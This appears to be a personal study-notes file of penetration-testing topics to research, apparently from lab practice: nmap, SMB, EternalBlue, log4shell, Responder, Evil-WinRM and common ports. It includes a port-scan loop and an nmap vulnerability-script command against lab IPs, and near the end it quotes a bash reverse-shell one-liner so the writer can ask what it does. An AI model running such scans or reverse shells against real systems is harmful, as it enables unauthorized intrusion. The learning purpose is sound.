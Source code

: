 ```yaml
---
title: CyberSec Concepts
author: Mateus Marques
output:
 html_document:
  highlight: tango
urlcolor: magenta
---
```


# Needs research

* OpenSSL. Why [configure like this](https://help.heroku.com/88GYDTB2/how-do-i-configure-openssl-to-allow-the-use-of-legacy-cryptographic-algorithms)?
```bash
for port in $(cat ports9.txt) ; do
  nmap -p $port 10.129.70.15 >> scan.txt
done
grep -i "open" scan.txt
```

* What is DNS Lookup, XXE and OAST?

* `sudo nmap --script smb-vuln* -p 445  10.10.10.4` nmap scripts.

* Meterpreter Metasploit.

* WannaCry, EternalBlue, MS17-010.

* What is LDAP, JNDI, analyze log4shell vulnerability deeply.

* Why `nmap -Pn`, block ping probes.

* NTLMv2. NTHash.

* Responder utility. `responder`.

* `/etc/hosts` details. Why putting `IP   website` to resolve connection?

* Evil-WinRM. [Detailed guide](https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/). Port 5985, 5896.

* VPN. `openvpn`.

* NMAP.

* `telnet`. Port 23.

* `ftp`. File Transfer Protocol. Port 21.

* SMB. Server Message Block. `samba`, `microsoft-ds`. Port 445, or 139.

* ICMP echo request. `ping`.

* TCP/UDP ports.

* RDP. Remote Desktop Protocol. Port 3389.

* HTTP, HTTPS. `nginx`, `apache`. Port 80.

* MongoDB. No-SQL database. Port 27017, 27018.

* Rsync. `rsync`. Port 873.

* `gobuster`.

* SQL. `mariadb`, `mysql`. Port 3306.

* Where to get better password and directory lists? Search what Kali uses.

* What is the difference between `gobuster` options `vhost` and `dns`?

* What is `netcat` and how does it work?

* DNS servers. Why add arbitrary DNS servers to `/etc/hosts`, such as `8.8.8.8`?

* What the payload `bash -c 'exec bash -i &>/dev/tcp/10.10.14.11/1234 <&1'` does exactly?
